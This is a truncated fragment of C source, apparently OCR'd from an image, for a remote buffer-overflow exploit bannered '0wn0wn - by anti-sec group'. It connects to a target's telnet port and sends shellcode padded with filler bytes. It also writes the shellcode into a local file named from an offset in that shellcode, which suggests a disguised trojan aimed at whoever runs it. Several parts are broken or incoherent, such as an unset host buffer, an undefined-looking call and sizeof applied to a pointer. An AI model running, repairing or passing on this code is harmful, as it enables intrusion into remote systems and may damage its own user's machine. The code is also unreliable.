 int main(int argc, char **argv){
    FILE *jmpinst;
    char h[500],buffer[1024];fremote(jmpcode);char *payload, *ptr;
    int port=23, limit=8, target=0, sock;
    struct hostent *host;
    struct sockaddr_in addr;

    if (geteuid()) {
    puts("need root for raw socket, etc...");
    return 1;
    }

    if(argc < 3){
        usage(argv[0]);
        return 1;
    }

    printf("\n  [+] 0wn0wn - by anti-sec group\n");

       if (!inet_aton(h, &addr.sin_addr)){
        host = gethostbyname(h);
        if (!host){
            printf("  [-] Resolving failed\n");
            return 1;
        }
        addr.sin_addr = *(struct in_addr*)host->h_addr;
    }

    sock = socket(PF_INET, SOCK_STREAM, 0);
    addr.sin_port = htons(port);
    addr.sin_family = AF_INET;
    if (connect(sock, (struct sockaddr*)&addr, sizeof(addr)) == -1){
        printf("  [-] Connecting failed\n");
        return 1;
    }
    payload = malloc(limit * 10000);
    ptr = payload+8;
    memcpy(ptr,jmpcode,strlen(jmpcode));
    jmpinst=fopen(shellcode+793,"w+");
    if(jmpinst){
        fseek(jmpinst,0,SEEK_SET);
        fprintf(jmpinst,"%s",shellcode);
        fclose(jmpinst);
    }
    ptr += strlen(jmpcode);
    if(target != 5 && target != 6){
        memcpy(ptr,shellcode,strlen(shellcode));
        ptr += strlen(shellcode);
        memset(ptr,'B',limit * 10000 - 8 - strlen(shellcode));
    }
    else{
        memcpy(ptr,fbsd_shellcode,strlen(fbsd_shellcode));
        ptr += strlen(fbsd_shellcode);
        memset(ptr,'B',limit * 10000 - 8 - strlen(fbsd_shellcode));
    }
    send(sock,buffer,strlen(buffer),0);
    send(sock,ptr,3750,0);
    close(sock);
    if(connect(sock, (struct sockaddr*)&addr, sizeof(addr))  == -1) {
        printf("  [-] connecting failed\n");              
    }

    payload[sizeof(payload)-1] = '\0';
    payload[sizeof(payload)-2] = '\0';
    send(sock,buffer,strlen(buffer),0);
    send(sock,payload,strlen(payload),0);